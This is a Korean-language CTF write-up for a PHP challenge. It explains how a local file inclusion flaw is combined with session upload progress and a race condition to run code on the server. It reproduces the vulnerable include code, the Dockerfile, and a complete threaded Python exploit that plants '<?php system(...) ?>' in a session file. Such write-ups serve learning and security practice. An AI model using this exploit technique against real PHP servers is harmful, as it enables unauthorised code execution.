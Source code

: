# 접근 방법
## 1. www.conf확인
`php_admin_value[session.upload_progress.enabled] = 1` PHP는 업로드 진행 상황을 추적할 수 있게 해준다. 이 기능을 보고 갈피를 잡았다.
`session.upload_progress.cleanup` 의 기본 값은 1이다, session.upload_progress.cleanup이 켜져 있는 경우, 모든 POST 데이터를 읽는 즉시 진행률 정보를 정리하기 때문에 빈 배열이 표시된다. 이를 막기 위하여 Race condition을 사용하여야한다.

## 2. 폴더 구조 확인
```php
<?php
    $page = $_GET['page'];
    if(isset($page)){
        include("./data/".$page);
    } else {
        header("Location: /?page=1");
    }
?>
```
```Dockerfile
FROM debian:bullseye

RUN DEBIAN_FRONTEND=noninteractive apt-get update && \
    apt-get install -y \
        nginx \
        php-fpm \
        libzip-dev \
        php-zip \
    && rm -rf /var/lib/apt/lists/

RUN rm -rf /var/www/html/*
COPY config/default /etc/nginx/sites-enabled/default
COPY config/www.conf /etc/php/7.4/fpm/pool.d/www.conf

COPY flag.txt config/readflag /
RUN chown 0:1337 /flag.txt /readflag && \
    chmod 040 /flag.txt && \
    chmod 2555 /readflag

COPY src /var/www/html/

RUN ln -sf /dev/stdout /var/log/nginx/access.log && \
    ln -sf /dev/stderr /var/log/nginx/error.log

RUN find / -ignore_readdir_race -type f \( -perm -4000 -o -perm -2000 \) -not -wholename /readflag -delete
USER www-data
RUN (find --version && id --version && sed --version && grep --version) > /dev/null
USER root

EXPOSE 80
CMD /etc/init.d/php7.4-fpm start && \
    nginx -g 'daemon off;'
```
- COPY src /var/www/html/를 보고 /var/www/html/가 웹의 루트 디렉토리라는걸 확인
```
/ (root)
  ├── var
  │   ├── lib
  │   │   └── php
  │   │       └── sessions
  └── www
      └── html
          └── (current directory)
```
1. /var/www/html/data에서 시작
> php 코드에서 /data위에서 실행을 한다
- ../->/var/www/data</br>
- ../->/var/www</br>
- ../->/var</br>
- ../->/</br>
    
2. 세션 진행사항 추적 경로 확인</br>
/var/lib/php/sessions/sess_{PHPSESSID}

## 3. 익스플로잇 코드 구성
익스플로잇 코드의 로직은 다음과 같다
1. 세션 파일로 /readflag를 실행하는 코드를 작성한다
2. 세션 파일은 지워지기 때문에 위에 코드를 무한히 반복한다
3. 동시에 /?page=/../../../../var/lib/php/sessions/sess_{PHPSESSID}를 읽어, 진행률 정보가 삭제되기 전에 읽기를 시도한다

## 4. 핵심코드 설명
```python
res = requests.post(url, files={
            'PHP_SESSION_UPLOAD_PROGRESS': (None, '<?php system("/readflag"); ?>'),
            'file': ('test', 'asdf')
        }, cookies={'PHPSESSID': 'test'})
```
`'PHP_SESSION_UPLOAD_PROGRESS': (None, '<?php system("/readflag"); ?>')`</br>
PHP_SESSION_UPLOAD_PROGRESS을 이용해 진행률 정보를 추적한다, 기본적으로 파일 데이터의 형태는 다음과 같은 튜플의 형태이다</br>
`{'field_name': (filename, filecontent, contenttype, headers)}`</br>
filename에 문자열이 들어올 경우, 세션 파일이 아닌 파일 처리 로직을 따라가기 때문에, PHP_SESSION_UPLOAD_PROGRESS를 통해 추적할 수 없다, 따라서 None으로 두었다 따라서 filecontent만 전달되게 된다</br>
filecontent는 php내용으로 업로드되서 실행되게 된다 이 실행내용은 PHP_SESSION_UPLOAD_PROGRESS를 통해 기록된다</br>
`'file': ('test', 'asdf')`</br>
파일 업로드 요청시에 file필드가 비어있는 경우, 서버가 이를 유효한 요청으로 인식하지 않고, 무시하게 된다. 따라서 아무거나 넣어줬다

# 익스플로잇 코드
```py
import threading
import requests

url = "http://apb2023.cstec.kr:8000"

def session1():
    while True:
        query = url + "/?page=../../../../var/lib/php/sessions/sess_test"
        res = requests.get(query)
        if len(res.text) != 0:
            print(res.text)

def session2():
    while True:
        res = requests.post(url, files={
            'PHP_SESSION_UPLOAD_PROGRESS': (None, '<?php system("/readflag"); ?>'),
            'file': ('test', 'asdf')
        }, cookies={'PHPSESSID': 'test'})

threading.Thread(target=session1).start()
threading.Thread(target=session2).start()
```
